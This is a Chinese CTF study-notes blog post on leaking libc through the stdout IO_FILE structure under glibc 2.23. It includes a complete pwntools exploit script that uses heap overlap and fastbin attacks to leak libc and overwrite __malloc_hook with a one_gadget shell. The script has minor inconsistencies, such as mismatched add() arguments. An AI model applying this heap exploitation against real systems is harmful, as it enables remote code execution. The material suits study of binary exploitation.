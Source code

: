 ```yaml
---
layout:     post
title:      IOfile泄露libc地址学习笔记
subtitle:   笔记
date:       2020-11-14
author:     X1ng
header-img: IOfile泄露libc.jpg
catalog: true
tags:

    - 学习笔记
    - IOfile泄露libc

---
```


由于做过的题太少了（太菜了），很多时候就算知道某个套路题，调试写出exp也很慢，平时不做题到比赛时已经把知识点忘光了，水篇笔记让我比赛的时候快速回忆IOfile泄露libc的知识点

## 利用方法

其实就是修改stdout的flag位为`0xfbad1800`,并且将`_IO_write_base`的最后一个字节改小，输出一些内容，这些内容里面就包含libc地址，具体的原理网上都可以找到讲的很好的师傅，可以看看[这个师傅的博客](https://n0va-scy.github.io/2019/09/21/IO_FILE/)

### 在libc-2.23.so下

构造堆块重叠时，需要让一块内存先进入0x70大小的fastbin中，然后再让它进入unsortbin中，最后修改unsortedbin下留下的`main_arena+88`地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkp2s5in4hj30jy080gn4.jpg)

覆盖最后两字节为`\xdd\xN5`，N需要爆破1/16，实际上应该是比`main_arena+88`大了0x100，比如上图在调试的时候可以用gdb的`set`命令将fd修改为0x7f8d780af5dd，方便调试

malloc两次之后就可以将chunk分配到`_IO_2_1_stdout_`结构体之前的一个地方，因为这段内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`，可以绕过fastbin分配的时候对size的检查

然后填充payload：`'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00'`

接收libc中的地址：`leak = u64(ru("\x7f")[-6:].ljust(8,'\x00'))`

如果有libc文件也可以用偏移直接算出libc基址

```python
IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
```

就完成了泄露

举个利用的栗子

```python
#!/usr/bin/python

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'
libc_name='libc-2.23.so'


def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla(">> ",str(num))

def add(size):
    cho(1)
    sla("size?",str(size))

def edit(idx,con):
    cho(4)
    sla("index ?",str(idx))
    sa("content ?", con)

def delete(idx):
    cho(2)
    sla("index ?",str(idx))

while True:
	try:
		if local:
    			p=process("./"+binary_name)
   			e=ELF("./"+binary_name)
			libc=ELF("./"+libc_name)
		else:
    			p=remote('',)
    			e=ELF("./"+binary_name)
    			libc=ELF("./"+libc_name)
        
		add(0x18)#0
		
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(0,'a'*0x18+'\x71')
		
    		delete(1)
    		#off-by-one，构造堆块重叠
    
    
		delete(2)
    		#将目标chunk放入fastbin
    
    
		add(0xf8)#1，让fastbin中chunk的fd中保存main_arena+88
		
		add(0x58)#2，与fastbin中重叠
		
		edit(2,'\xdd\x25')
    		#修改低位两字节
		
		
		add(0x68)#4
		
		add(0x68)#5，该chunk在`_IO_2_1_stdout_`结构体附近
		
		edit(5,'a'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00')
		#填充payload
    
    
		IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
		libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
		print 'libc:' + hex(libc_base)
		malloc_hook = libc_base + libc.symbols['__malloc_hook']
    		print 'malloc:' + hex(malloc_hook-0x10)
		#接收地址
    
    
		add(0x18)#6
		
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(6,'a'*0x18+'\x71')
		delete(7)
		delete(8)
		add(0x168)#7
		
		edit(7,'a'*0xf0+p64(0)+p64(0x71)+p64(malloc_hook - 0x23))
		#故技重施，分配chunk到malloc_hook附近
		
		
		add(0x68,'b')#8
		add(0x68,'b')#10
		edit(10,'\x00'*0x13 + p64(libc_base + 0x45226))
		#填充payload，覆盖malloc_hook为one_gadget
		
		
		cho(1)
    		sla("size?",str(100))
		#调用malloc
		
		
		ia()
		break
	except:
		p.close()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)

constraints:

	rax == NULL


0x4527a execve("/bin/sh", rsp+0x30, environ)

constraints:

  [rsp+0x30] == NULL


0xf0364 execve("/bin/sh", rsp+0x50, environ)

constraints:

  [rsp+0x50] == NULL


0xf1207 execve("/bin/sh", rsp+0x70, environ)

constraints:

  [rsp+0x70] == NULL
'''
```



### 在libc-2.27.so下

在libc-2.27环境下由于有了tcache，不需要特意将chunk分配到内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`的地址上了

